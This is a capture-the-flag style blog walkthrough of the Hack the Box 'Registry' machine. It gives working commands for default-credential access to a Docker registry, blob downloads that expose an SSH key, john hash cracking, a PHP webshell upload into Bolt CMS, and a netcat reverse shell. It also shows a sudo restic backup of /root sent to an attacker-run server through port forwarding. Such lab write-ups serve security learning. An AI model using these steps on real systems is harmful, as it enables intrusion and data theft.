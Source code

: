 +++
author = "Nick"
categories = ["hack the box", "Linux", "Hard", "docker", "bolt cms", "reverse shell", "john", "port forwarding", "restic"]
date = 2020-04-04T10:00:00Z
description = ""
draft = false
thumbnail = "/images/2020/04/registry.png"
slug = "hack-the-box-registry"
summary = "Welcome back! Today we are going to be doing the Hack the Box machine - Registry. This machine is listed as a Hard linux box. Let's jump in!"
tags = ["hack the box", "Linux", "Hard", "docker", "bolt cms", "reverse shell", "john", "port forwarding", "restic"]
title = "Hack the Box - Registry"

+++


Welcome back! Today we are going to be doing the Hack the Box machine - Registry. This machine is listed as a Hard linux box. Let's jump in!

As usual, we kick it off with our `nmap`: `nmap -sC -sV -p- -oA allscan 10.10.10.159`

Here are the results:
```
Nmap scan report for 10.10.10.159
Host is up (0.12s latency).
Not shown: 65532 closed ports
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 72:d4:8d:da:ff:9b:94:2a:ee:55:0c:04:30:71:88:93 (RSA)
|   256 c7:40:d0:0e:e4:97:4a:4f:f9:fb:b2:0b:33:99:48:6d (ECDSA)
|_  256 78:34:80:14:a1:3d:56:12:b4:0a:98:1f:e6:b4:e8:93 (ED25519)
80/tcp  open  http     nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Welcome to nginx!
443/tcp open  ssl/http nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Welcome to nginx!
| ssl-cert: Subject: commonName=docker.registry.htb
| Not valid before: 2019-05-06T21:14:35
|_Not valid after:  2029-05-03T21:14:35
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We have quite a list of results. We're going to want to add `registry.htb` as well as `docker.registry.htb` to our host file. When we browse to that location, we don't have anything being shown. We'll enumerate a bit with `gobuster`.

Command:
`gobuster dir -u registry.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50`



We immediately see a directory called `v2`. Let's head over to that and see what's there. We are immediately prompted for credentials. We try some standard credentials like admin / admin and we get in. 

Now that we've authenticated, we are given what seems to be an API endpoint. Sure enough, it is the docker API endpoint. There is some documentation for that [here](https://docs.docker.com/registry/spec/api/).

According to the docks we can see available repositories by send a `GET` to `/v2/_catalog`.

![](/images/2020/04/image-19.png" caption="From the Docker documentation)

So, let's `curl` it and see what comes back (Note you can just browse to this URL as well).

Command:
`curl --user "admin:admin" docker.registry.htb/v2/_catalog`

![](/images/2020/04/image-20.png)

We see one repo named `bolt-image`. Cool, now that we have an image being used, let's get it's manifest. For those unaware of Docker and how it functions, a manifest is just like it sounds. A listing of docker related data about the image being used. You can read more on the Docker manifest [here](https://docs.docker.com/engine/reference/commandline/manifest/).

Command:
`curl --user "admin:admin" docker.registry.htb/v2/bolt-image/manifests/latest > bolt.manifest`

We now have a bunch of data about the docker image. Now we see a large listing of `blogSum`s. These are essentially zipped digests. So we'll download each of them, give them the `.tar.gz` extension and then unzip them to see what is inside. Here's a quick .sh I put together:
```bash
wget --http-user=admin --http-password=admin http://docker.registry.htb/v2/bolt-image/blobs/sha256:302bfcb3f10c386a25a58913917257bd2fe772127e36645192fa35e4c6b3c66b -O 1.tar.gz
wget --http-user=admin --http-password=admin http://docker.registry.htb/v2/bolt-image/blobs/sha256:3f12770883a63c833eab7652242d55a95aea6e2ecd09e21c29d7d7b354f3d4ee -O 2.tar.gz
wget --http-user=admin --http-password=admin http://docker.registry.htb/v2/bolt-image/blobs/sha256:c71b0b975ab8204bb66f2b659fa3d568f2d164a620159fc9f9f185d958c352a7 -O 3.tar.gz
wget --http-user=admin --http-password=admin http://docker.registry.htb/v2/bolt-image/blobs/sha256:2931a8b44e495489fdbe2bccd7232e99b182034206067a364553841a1f06f791 -O 4.tar.gz
wget --http-user=admin --http-password=admin http://docker.registry.htb/v2/bolt-image/blobs/sha256:a3ed95caeb02ffe68cdd9fd84406680ae93d633cb16422d00e8a7c22955b46d4 -O 5.tar.gz
wget --http-user=admin --http-password=admin http://docker.registry.htb/v2/bolt-image/blobs/sha256:f5029279ec1223b70f2cbb2682ab360e1837a2ea59a8d7ff64b38e9eab5fb8c0 -O 6.tar.gz
wget --http-user=admin --http-password=admin http://docker.registry.htb/v2/bolt-image/blobs/sha256:d9af21273955749bb8250c7a883fcce21647b54f5a685d237bc6b920a2ebad1a -O 7.tar.gz
wget --http-user=admin --http-password=admin http://docker.registry.htb/v2/bolt-image/blobs/sha256:8882c27f669ef315fc231f272965cd5ee8507c0f376855d6f9c012aae0224797 -O 8.tar.gz
wget --http-user=admin --http-password=admin http://docker.registry.htb/v2/bolt-image/blobs/sha256:f476d66f540886e2bb4d9c8cc8c0f8915bca7d387e536957796ea6c2f8e7dfff -O 9.tar.gz
```

We finally find one with some data in!

![](/images/2020/04/image-21.png)

Inside we have a shell file with the password to an `SSH` key.

![](/images/2020/04/image-22.png)

Inside another, we have the key itself.

![](/images/2020/04/image-23.png)

Inside the `config` file we also get a username to connect with.

![](/images/2020/04/image-24.png)

Now we can `SSH` into the machine and with some luck snag our user key!

Command:
`ssh -i id_rsa bolt@10.10.10.159`

![](/images/2020/04/image-26.png)

Awesome, we have our `user.txt` flag. Let's start enumerating and looking for a path to root!

We know from the `gobuster` enumeration that there is a directory called /bolt/ (as well as from our blob downloads). When we browse ot it we are met with a basic install of the [Bolt CMS](https://bolt.cm/). So we manually enumerate the site a bit but find nothing too useful.

We head back to our `SSH` shell and look around the bolt directory. We find a file called `bolt.db` in the bolt app location.

![](/images/2020/04/image-27.png)

If we `cat` this file we see this within it.

![](/images/2020/04/image-29.png)

That is indeed the hash for the admin account. We'll save it to a file called `admin.hash` and send it to `john` to crack.

Command:
`john --wordlist=/usr/share/wordlist/rockyou.txt admin.hash`

![](/images/2020/04/adminhash_registry.gif)

We get a password of `strawberry` back. So now that we have an admin password to the application, let's log in: `http://registry.htb/bolt/bolt/login`

Once we're in we look around internally as well as some googling for bolt cms exploits. We find a few but none seem to work. Some more [research shows](https://fgsec.net/from-csrf-to-rce-bolt-cms/) that we can append file types to our allowed uploads. We can append the `.php` extension and give ourselves a webshell.

So we head over to Configuration > Main Configuration and look for the `accepted_file_types` line.

![](/images/2020/04/image-30.png)

Now we add `.php` to the list. Then we head over to File Management tab and upload our own shell. This all needs to be done quickly. It seems that the setting get reset every 2 mins or so?

So we upload our shell and navigate to it and execute our command for a netcat listener.

We then connect to the target for our shell.

![](/images/2020/04/image-31.png)

Once we're in we start some manual enumeration and get `linpeas` onto the system. Our first check of our permission shows that we can run `restic` as sudo.

![](/images/2020/04/image-32.png)

I don't even know what the software is, so we do more googling. Turns out it's a backup application. Reading through the documentation it seems the calls are all local, meaning we'll need to forward our ports at some point. First let's install the application. The application is actually in the standard repo, so we can use `apt install restic` and be good.

After it's installed we need to initialize the repo:
`restic init -r .reg`

Next, we need to start the server. We can download the precompiled binaries [here](https://github.com/restic/rest-server/releases):
`rest-server --path .reg`

![](/images/2020/04/image-33.png)

Now that those parts are setup. We need to forward our ports in order to pass our commands.

Command:
`ssh -i ~/HTB/Registry/root/.ssh/id_rsa 8000:localhost:8000 bolt@10.10.10.159`

![](/images/2020/04/image-34.png)

Now we can issue the sync command from the `www-data` shell:
`sudo /usr/bin/restic backup -r rest:http://localhost:8000 /root`

![](/images/2020/04/image-35.png)

We will now see our `.reg` location filled with data from the backup.

![](/images/2020/04/image-36.png)

This isn't exactly what we want. Although I'm sure we could dig through the snapshot file, we want to sync the `root.txt` flag. So we can issue the same basic command as above but to specify the `root.txt` file:

Command:
`sudo /usr/bin/restic backup -r rest:http://127.0.0.1:8000/ /root/root.txt`

![](/images/2020/04/image-37.png)

Now that we've copied that file back, we need to decrypt it using the `restore` function of `restic`. We need to go back a level because this will not work from within the repo.

Command:
`restic -r .reg restore latest --target restored`

![](/images/2020/04/rootregistry.gif)

There we have it, our `root.txt` flag! Also, I should note that restoring the snapshot file was not complicated and did it the second time through the box for this blog. Here are the steps.

We navigate to our snapshot directory and issue the following:

`restic restore $SNAPSHOTID --target /root/Desktop -r /root/Desktop/$directory`

The items with a `$` are variables you'd set because the snapshot ID's and locations will be different for each run.

Hopefully something was learned during this machine. If you found this write-up helpful, consider sending some respect my way: [My HTB Profile](https://www.hackthebox.eu/home/users/profile/95635).



